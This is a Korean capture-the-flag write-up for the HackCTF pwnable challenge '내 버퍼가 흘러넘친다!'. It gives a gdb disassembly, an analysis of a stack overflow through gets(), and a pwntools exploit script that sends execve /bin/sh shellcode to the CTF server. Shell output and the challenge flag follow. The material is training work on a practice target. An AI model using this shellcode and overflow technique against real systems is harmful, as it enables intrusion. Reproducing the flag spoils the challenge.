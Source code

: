 # 내 버퍼가 흘러넘친다!

---

전체 코드는 다음과 같다.

```assembly
gdb-peda$ pd main
Dump of assembler code for function main:
   0x080484cb <+0>:	push   ebp
   0x080484cc <+1>:	mov    ebp,esp
   0x080484ce <+3>:	sub    esp,0x14
   0x080484d1 <+6>:	mov    eax,ds:0x804a040
   0x080484d6 <+11>:	push   0x0
   0x080484d8 <+13>:	push   0x2
   0x080484da <+15>:	push   0x0
   0x080484dc <+17>:	push   eax
   0x080484dd <+18>:	call   0x80483b0 <setvbuf@plt>
   0x080484e2 <+23>:	add    esp,0x10
   0x080484e5 <+26>:	push   0x80485b0
   0x080484ea <+31>:	call   0x8048380 <printf@plt>
   0x080484ef <+36>:	add    esp,0x4
   0x080484f2 <+39>:	push   0x32
   0x080484f4 <+41>:	push   0x804a060
   0x080484f9 <+46>:	push   0x0
   0x080484fb <+48>:	call   0x8048370 <read@plt>
   0x08048500 <+53>:	add    esp,0xc
   0x08048503 <+56>:	push   0x80485b8
   0x08048508 <+61>:	call   0x8048380 <printf@plt>
   0x0804850d <+66>:	add    esp,0x4
   0x08048510 <+69>:	lea    eax,[ebp-0x14]
   0x08048513 <+72>:	push   eax
   0x08048514 <+73>:	call   0x8048390 <gets@plt>
   0x08048519 <+78>:	add    esp,0x4
   0x0804851c <+81>:	mov    eax,0x0
   0x08048521 <+86>:	leave  
   0x08048522 <+87>:	ret    
End of assembler dump.
```

`read()`함수에서 0x32 bytes만큼 0x804a060에 저장한다. 이곳에 shellcode를 넣고 gets함수에서 발생하는 stackoverflow를 통해서 ret주소를 **0x804a060**으로 바꾸어주겠다.

`main()+69`를 보면 `gets()`를 통해서 입력받는 문자열을 ebp-0x14에 저장하는 것을 알 수 있다. 때문에 ret주소를 바꾸기 위해서는 payload를 다음과 같이 짜면 될 것이다.

**[dummy 24bytes] + 0x804a060** 

다음과 같은 코드를 이용해서 익스에 성공했다.

```python
from pwn import*
p=remote('ctf.j0n9hyun.xyz', 3003)
ret_address=0x804a060
shellcode='\x31\xc0\x31\xd2\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80'
p.recvuntil('Name : ')
p.sendline(shellcode)
p.recvuntil('input : ')
payload='A'*24
payload+=p32(ret_address)
p.sendline(payload)
p.interactive()
```


    sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/4.prob$ python ex.py
    [+] Opening connection to ctf.j0n9hyun.xyz on port 3003: Done
    [*] Switching to interactive mode
    $ whoami
    attack
    $ ls
    flag
    main
    $ cat flag
    HackCTF{1_l0v3_70p_pwn3r_m4lhyuk}

**flag: HackCTF{1_l0v3_70p_pwn3r_m4lhyuk}**
